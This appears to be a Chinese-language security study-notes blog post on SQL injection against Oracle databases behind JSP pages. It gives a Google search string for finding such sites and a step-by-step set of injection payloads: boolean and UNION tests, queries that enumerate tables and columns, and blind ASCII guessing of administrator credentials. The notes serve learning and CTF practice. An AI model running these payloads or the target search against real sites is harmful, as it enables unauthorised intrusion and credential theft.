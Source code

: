 ```yaml
---
layout:     post
title:      Web笔记（四）SQL注入之Oracle
subtitle:   这个系列是整理学习安全的笔记，包括Web和PWN的一些知识。本章是Oracle的SQL注入。
date:       2020-11-29
author:     K4ys0n
header-img: img/post-bg-rwd.jpg
catalog:    true
tags:
    - CTF
    - web
    - 网络安全
    - 学习笔记
    - SQL注入
    - Oracle
---
```




##  0x00 Oracle简介

oracle数据库系统时美国ORACLE公司（甲骨文）提供的以分布式数据库为核心的一组软件产品，是目前世界上使用最广泛的数据库管理系统。基于“客户端/服务器”模式结构，客户端应用程序与用户交互，接收用户信息，并向服务器发送请求，服务器系统负责管理数据信息和各种操作数据的活动。



## 0x01 Oracle特点

- 支持多用户、大事务量的处理

- 数据安全性和完整性的有效控制

- 支持分布式数据处理

- 移植性强



## 0x02 Oracle常用场景

可能存在oracle注入的有：

- 物流

- 旅游

- 政府

- 学校

一般是jsp+oracle，可以用谷歌语法查找：`inurl:jsp?id= 旅游`

为了强化记忆是jsp文件，跟php作对比我在后面都用`jsp?id=1`示例。

## 0x03 SQL注入攻击

#### 1. 判断注入

```
jsp?id=1 and 1=1 -- 
jsp?id=1 and 1=2 -- 
```

#### 2. 判断oracle数据库

```
jsp?id=1 and exists(select * from dual) -- 
jsp?id=1 and exists(select * from user_tables) -- 
```

#### 3. 判断列数

```
jsp?id=1 order by 11 --  	返回正常
jsp?id=1 order by 12 -- 	返回错误
```

说明有11列。

#### 4. 获取数据类型不匹配的列

```
jsp?id=-1 union select null,null,null,null,null,null,null,null,null,null,null from dual
```

逐个代替为数字1或者字符'1'，来确定是数值还是字符类型，然后在字符类型的地方插入查询语句。

#### 5. 获取基本信息

```
# 获取数据库版本
(select banner from sys.v_$version where rownum=1)

# 获取操作系统版本
(select member from v$logfile where rownum=1)

# 获取连接数据库的当前用户
(select SYS_CONTEXT ('USERENV', 'CURRENT_USER') from dual)

# 获取数据库
(select owner from all_tables where rownum=1)

# 例如获取数据库版本信息：
jsp?id=100 union select null,(select banner from sys.v_$version where rownum=1),null,null,null,null,null,null,null,null,null from dual

# 例如获取第一张表
jsp?id=100 union select null,(select table_name from user_tables where rownum=1),null,null,null,null,null,null,null,null,null from dual

# 例如获取第二张表
jsp?id=100 union select null,(select table_name from user_tables where rownum=1 and table_name<>'ACCESS'),null,null,null,null,null,null,null,null,null from dual
以此类推
```

另一种注入方式判断数据库中的表：

```
jsp?id=1 and (select count(*) from admin)<>0
```

- 如果返回正常，说明存在admin表。

- 如果返回错误，可将admin改成username、manager等常用表名继续猜解，也即跑表名字典。

#### 6. 判断该网站下有几个管理员

如果有多个的话可以加大成功入侵的几率。

```
jsp?id=1 and (select count(*) from admin)=1
```

返回正常，说明只有一个管理员

#### 7. 指定表名获取列名

```
jsp?id=1 and (select count(name) from admin)>=0
```

返回正常，说明存在name字段

#### 8. 采用ascii码折半法猜解管理员账号密码

- 判断管理员名字长度

```
jsp?id=1 and(select count(*) from admin where length(name)>=5)=1
```

其中length()函数用于求字符串的长度，此处猜测用户名的长度和5比较，即猜测是否由5个字符组成

- 判断名字中各个位置的字符

```
jsp?id=1 and (select count(*) from admin where ascii(substr(name,1,1))>=97)=1
```

其中substr()函数用于截取字符串，ascii()函数用于获取字符的ascii码。